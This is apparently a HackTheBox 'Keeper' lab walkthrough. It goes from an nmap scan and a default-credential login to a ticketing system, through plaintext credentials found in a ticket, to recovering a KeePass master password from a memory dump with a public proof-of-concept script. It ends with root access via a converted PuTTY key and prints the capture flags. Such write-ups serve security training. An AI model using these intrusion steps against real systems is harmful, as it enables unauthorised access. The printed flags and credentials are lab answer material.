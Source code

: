 ```yaml
---
categories: [HackTheBox]
tags: [Keepass, PrivEsc, putty_gen]
image:
  path: /Vulnhub-Files/img/Keeper/front.png
  alt: https://www.hackthebox.com/achievement/machine/595651/556
---
```






![Untitled](/Vulnhub-Files/img/Keeper/Untitled.png)

 ⭐ [Box Profile](https://www.hackthebox.com/achievement/machine/595651/556)

## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Keeper]
└─$ sudo nmap -sC -sV -T4 10.10.11.227 -oN Nmap_results.txt

Starting Nmap 7.94 ( https:/nmap.org ) at 2023-08-28 13:17 IST
Nmap scan report for 10.10.11.227
Host is up (0.16s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site does not have a title (text/html).
Service Info: ; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

## Web Enumeration ⤵️

On loading the port 80 I got this redirect link →

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%201.png)

Now when I get the /etc/hosts file as `tickets.keeper.htb`  I got this Request Tracker page Login Page →

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%202.png)

Now with default credentails I used username : root , password : password and I got into the login page →

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%203.png)

While Enumeration I got this content →

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%204.png)

I got a username and the password in comments column →

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%205.png)

Credentials →

```bash
lnorgaard : Welcom2023!
```
{: .nolineno}

## Shell ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Keeper]
└─$ ssh lnorgaard@keeper.htb    
The authenticity of host 'keeper.htb (10.10.11.227)' cant be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'keeper.htb' (ED25519) to the list of known hosts.
lnorgaard@keeper.htb is password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https:/help.ubuntu.com
 * Management:     https:/landscape.canonical.com
 * Support:        https:/ubuntu.com/advantage
Failed to connect to https:/changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Mon Aug 28 10:13:23 2023 from 10.10.15.16
lnorgaard@keeper:~$
```
{: .nolineno}

Lets dig deeper →

```bash
lnorgaard@keeper:~$ ls -al
total 333032
drwxr-xr-x 5 lnorgaard lnorgaard      4096 Aug 28 09:58 .
drwxr-xr-x 3 root      root           4096 May 24 16:09 ..
lrwxrwxrwx 1 root      root              9 May 24 15:55 .bash_history -> /dev/null
-rw-r--r-- 1 lnorgaard lnorgaard       220 May 23 14:43 .bash_logout
-rw-r--r-- 1 lnorgaard lnorgaard      3771 May 23 14:43 .bashrc
drwx------ 2 lnorgaard lnorgaard      4096 May 24 16:09 .cache
drwx------ 3 lnorgaard lnorgaard      4096 Aug 28 09:13 .gnupg
-rwxr-x--- 1 lnorgaard lnorgaard 253395188 May 24 12:51 KeePassDumpFull.dmp
-rw------- 1 lnorgaard lnorgaard        20 Aug 28 09:34 .lesshst
-rwxr-x--- 1 lnorgaard lnorgaard      3630 May 24 12:51 passcodes.kdbx
-rw-rw-r-- 1 lnorgaard lnorgaard      2735 Aug 28 09:40 poc.py
-rw------- 1 lnorgaard lnorgaard       807 May 23 14:43 .profile
-rw------- 1 lnorgaard lnorgaard         5 Aug 28 09:15 .python_history
-rw-rw-r-- 1 lnorgaard lnorgaard    156929 Aug 28 09:14 res.txt
-rw-r--r-- 1 root      root       87391651 Aug 28 10:28 RT30000.zip
drwx------ 2 lnorgaard lnorgaard      4096 Jul 24 10:25 .ssh
-rw------- 1 lnorgaard lnorgaard     12288 Aug 28 09:08 .swp
-rw-r----- 1 root      lnorgaard        33 Aug 28 09:00 user.txt
-rw-r--r-- 1 root      root             39 Jul 20 19:03 .vimrc
lnorgaard@keeper:~$ cat user.txt 
2b10a78fdfebe350af5b4f9635b38c6a
lnorgaard@keeper:~$
```
{: .nolineno}

Now I extracted this RT30000.zip file in my host machine and got 2 files 1 file contains dumps of that passwords which will be used to crack the other file which is a keepass password file named as `passcodes.kdbx`

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%206.png)

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%207.png)

To crack this password I need to download a .NET script to extract the password from this .dmp file →

https:/github.com/CMEPW/keepass-dump-masterkey

Now I extracted the password using this above code →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Keeper]
└─$ python3 poc.py -d KeePassDumpFull.dmp
2023-08-28 15:24:07,331 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```
{: .nolineno}

I have to guessed it but I searched on web and it is Dutch language →

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%208.png)

so lets extract this data →

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%209.png)

![Untitled](/Vulnhub-Files/img/Keeper/Untitled%2010.png)

Now I got this putty id_rsa key so I copied all the Notes content into `keeper.txt` file and for making it into its `id_rsa` format I have used a script called puttygen and specified its type and output file →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Keeper]
└─$ puttygen keeper.txt -O private-openssh -o id_rsa
```
{: .nolineno}

Now Lets login into the root with this private key and also change its file permission to 600 →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Keeper]
└─$ sudo ssh root@tickets.keeper.htb -i id_rsa
The authenticity of host 'tickets.keeper.htb (10.10.11.227)' cant be established.
ED25519 key fingerprint is SHA256:hczMXffNW5M3qOppqsTCzstpLKxrvdBjFYoJXJGpr7w.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'tickets.keeper.htb' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https:/help.ubuntu.com
 * Management:     https:/landscape.canonical.com
 * Support:        https:/ubuntu.com/advantage
You have new mail.
Last login: Tue Aug  8 19:00:06 2023 from 10.10.14.41
root@keeper:~# whoami
root
root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@keeper:~# ls -al
total 85384
drwx------  5 root root     4096 Jul 27 13:57 .
drwxr-xr-x 18 root root     4096 Jul 27 13:52 ..
lrwxrwxrwx  1 root root        9 May 24 15:54 .bash_history -> /dev/null
-rw-r--r--  1 root root     3106 Dec  5  2019 .bashrc
drwx------  2 root root     4096 May 24 16:58 .cache
-rw-------  1 root root       20 Jul 27 13:57 .lesshst
lrwxrwxrwx  1 root root        9 May 24 15:54 .mysql_history -> /dev/null
-rw-r--r--  1 root root      161 Dec  5  2019 .profile
-rw-r-----  1 root root       33 Aug 28 13:13 root.txt
-rw-r--r--  1 root root 87391651 Jul 25 19:56 RT30000.zip
drwxr-xr-x  2 root root     4096 Jul 25 20:11 SQL
drwxr-xr-x  2 root root     4096 May 24 16:09 .ssh
-rw-r--r--  1 root root       39 Jul 20 19:03 .vimrc
root@keeper:~# cat root.txt
e034f821aeb7de6d2677c1776ac482b8
root@keeper:~#
```

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }